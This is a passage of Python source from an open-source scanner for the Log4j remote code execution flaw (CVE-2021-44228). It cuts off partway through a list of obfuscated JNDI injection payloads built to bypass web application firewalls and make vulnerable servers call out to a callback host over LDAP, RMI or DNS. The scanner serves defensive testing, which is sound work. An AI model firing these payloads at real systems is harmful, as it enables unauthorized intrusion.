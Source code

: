   ```python
  
  
  # Disable SSL warnings
  try:
      import requests.packages.urllib3
      requests.packages.urllib3.disable_warnings()
  except Exception:
      pass
  
  
  cprint('[•] CVE-2021-44228 - Apache Log4j RCE Scanner', "green")
  cprint('[•] Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.', "yellow")
  cprint('[•] Secure your External Attack Surface with FullHunt.io.', "yellow")
  
  if len(sys.argv) <= 1:
      print('\n%s -h for help.' % (sys.argv[0]))
      exit(0)
  
  
  default_headers = {
      'User-Agent': 'log4j-scan (https://github.com/mazen160/log4j-scan)',
      # 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36',
      'Accept': '*/*'  # not being tested to allow passing through checks on Accept header in older web-servers
  }
  
  post_data_parameters = ["username", "user", "uname",
                          "name", "email", "email_address", "password", "payload"]
  timeout = 4
  
  waf_bypass_payloads = ["${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://{{callback_host}}/{{random}}}",
                         "${${::-j}ndi:rmi://{{callback_host}}/{{random}}}",
                         "${jndi:rmi://{{callback_host}}/{{random}}}",
                         "${jndi:rmi://{{callback_host}}}/",
                         "${${lower:jndi}:${lower:rmi}://{{callback_host}}/{{random}}}",
                         "${${lower:${lower:jndi}}:${lower:rmi}://{{callback_host}}/{{random}}}",
                         "${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://{{callback_host}}/{{random}}}",
                         "${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://{{callback_host}}/{{random}}}",
                         "${jndi:dns://{{callback_host}}/{{random}}}",
                         "${jnd${123%25ff:-${123%25ff:-i:}}ldap://{{callback_host}}/{{random}}}",
                         "${jndi:dns://{{callback_host}}}",
                         "${j${k8s:k5:-ND}i:ldap://{{callback_host}}/{{random}}}",
                         "${j${k8s:k5:-ND}i:ldap${sd:k5:-:}//{{callback_host}}/{{random}}}",
                         "${j${k8s:k5:-ND}i${sd:k5:-:}ldap://{{callback_host}}/{{random}}}",
                         "${j${k8s:k5:-ND}i${sd:k5:-:}ldap${sd:k5:-:}//{{callback_host}}/{{random}}}",
                         "${${k8s:k5:-J}${k8s:k5:-ND}i${sd:k5:-:}ldap://{{callback_host}}/{{random}}}",
                         "${${k8s:k5:-J}${k8s:k5:-ND}i${sd:k5:-:}ldap{sd:k5:-:}//{{callback_host}}/{{random}}}",
                         "${${k8s:k5:-J}${k8s:k5:-ND}i${sd:k5:-:}l${lower:D}ap${sd:k5:-:}//{{callback_host}}/{{random}}}",
                         "${j${k8s:k5:-ND}i${sd:k5:-:}${lower:L}dap${sd:k5:-:}//{{callback_host}}/{{random}}",
                         "${${k8s:k5:-J}${k8s:k5:-ND}i${sd:k5:-:}l${lower:D}a${::-p}${sd:k5:-:}//{{callback_host}}/{{random}}}",
                         "${jndi:${lower:l}${lower:d}a${lower:p}://{{callback_host}}}",
                         "${jnd${upper:i}:ldap://{{callback_host}}/{{random}}}",
  ```